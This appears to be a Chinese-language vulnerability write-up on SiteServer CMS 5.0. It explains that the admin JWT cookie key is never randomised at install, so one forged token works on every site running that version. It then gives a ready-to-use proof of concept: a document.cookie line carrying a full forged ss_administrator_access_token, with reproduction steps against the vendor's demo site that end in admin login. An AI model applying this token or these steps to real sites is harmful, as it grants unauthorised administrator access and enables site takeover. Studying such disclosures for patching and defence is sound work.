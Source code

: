 ```yaml
---
title: SiteServer CMS 5.0 管理后台Cookie欺骗
id: zhfly3126
---
```


# SiteServer CMS 5.0 管理后台Cookie欺骗

## 一、漏洞简介

SiteServer CMS 5.0 后台访问控制采用JWT技术进行身份鉴别，HTTP请求时通过Cookie中的ss_administrator_access_token字段值作为身份鉴别，而加密ss_administrator_access_token字段值的key在安装时未进行随机初始化，导致所有相同版本的应用系统Cookie可以通用,通过修改Cookie可登陆任意相同版本后台。

## 二、漏洞影响

SiteServer CMS 5.0

## 三、复现过程

系统环境：IIS 7.5 + MSSQL 2008 R2 （操作系统：Windows Server 2008 R2）

先访问一个站点，以官方体验站点为例子：

http://cms.demo.siteserver.cn/siteserver/login.aspx

Chrome浏览器按F12切换到控制台，设置ss_administrator_access_token的Cookie值（以下PoC可以直接使用）：

```
document.cookie='ss_administrator_access_token=M3ENIa3NKJJ39JCRHnY4PgfJqMC7lFjggL0e9S06Bs9ubZE90add0xM2aesaL0add0Cxo8Xe5VZrSanerzFU8oZaMXCC9AoJfZvq5AtBXGxi0slash0tCRtk8UgV5UXu1u2pDL6htbwIqGBZx0slash0ZqVH4x0LjRE20slash0mz3FHc5QJFpTAKI0slash0AJ52LJ6XnWB7gsJuHFauL0add0q0add0sIMft8e3ef840gWzQaChpfGHfYwGS5wHFaC19T56X2J0Z5Hn500equals0' 
```

再次访问（后面没有login.aspx）：

http://cms.demo.siteserver.cn/siteserver/

登陆成功